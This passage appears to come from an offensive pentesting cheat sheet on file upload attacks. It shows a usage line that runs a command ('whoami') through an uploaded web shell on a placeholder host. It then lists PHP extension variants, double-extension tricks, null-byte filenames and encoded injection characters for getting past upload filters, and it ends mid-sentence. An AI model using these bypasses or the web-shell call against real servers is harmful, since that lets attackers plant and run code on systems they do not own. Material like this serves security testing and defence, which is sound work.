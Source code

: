 
Usage: `https://hacked.box/upload/shell.py?c=whoami`


## File upload attacks

#### Pass filter with alternative PHP fileextentions

 - In case `.php` files are not allowed to be uploaded or not executed, try `.php5`, `.php7`, `.phtml`, etc.

**List of extensions**

```
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phtm
.phtml
.phar
.phpt
.phps
.gif.php
.php.gif
.php%00.gif
.php\x00.gif
```

Herby exploits `.gif.php` a weak regex check of a filename and `.php.gif` a weak server configuration, which would try to execute all files with a `.php` in the filename.

The character injection (e.g. `.php\x00.gif`) try to exploit the 

```
%20
%0a
%00
%0d%0a
%0d0a
\x20
\x0a
\x00
\x0d\x0a
\x0d0a
/
.\
.
…
:
```

